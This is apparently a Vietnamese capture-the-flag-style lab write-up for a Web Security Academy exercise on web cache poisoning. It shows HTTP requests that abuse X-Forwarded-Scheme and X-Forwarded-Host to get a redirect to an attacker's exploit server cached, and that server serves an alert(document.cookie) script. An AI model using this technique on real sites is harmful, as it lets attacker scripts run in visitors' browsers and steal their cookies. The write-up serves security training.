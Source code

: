 ```http
GET /resources/js/tracking.js?xnxx HTTP/2
Host: 0ad30039049f7078828d796d00f300f4.web-security-academy.net
...
X-Forwarded-Scheme: http
```
- Nếu là `http` sẽ trả về **redirect (302)** sang `https`, nếu là `https` không **redirect** => **server** dựa vào **header** này để biết client kết nối qua **HTTP** hay **HTTPS**.

```http
HTTP/2 302 Found
Location: https://0ad30039049f7078828d796d00f300f4.web-security-academy.net/resources/js/tracking.js?xnxx
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0
```
- Tiếp tục gửi **request** với **X-Forwarded-Scheme**, **X-Forwarded-Host** và **cache-buster**

```http
GET /resources/js/tracking.js?xnxx HTTP/2
Host: 0ad30039049f7078828d796d00f300f4.web-security-academy.net
...
X-Forwarded-Scheme: http
X-Forwared-Host: xnxx.com
```
- **Backend** biết **host** gốc mà client đã yêu cầu thông qua **X-Forwarded-Host**
- Nhân được **redirect** đến **host** mà ta cung cấp

```http
HTTP/2 302 Found
Location: https://xnxx.com/resources/js/tracking.js?xnxx
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 24
X-Cache: hit
Content-Length: 0
```

#### Exploit
- Thêm **payload** vào **exloit server** và đổi tên thành `/resources/js/tracking.js`

```js
alert(document.cookie)
```
- Gửi **request** không có **cache-buster** đến khi `X-Cache: hit`

```http
GET /resources/js/tracking.js HTTP/2
Host: 0ad30039049f7078828d796d00f300f4.web-security-academy.net
...
X-Forwarded-Scheme: http
X-Forwared-Host: exploit-0adf00050466700582a178da0177004f.exploit-server.net
```

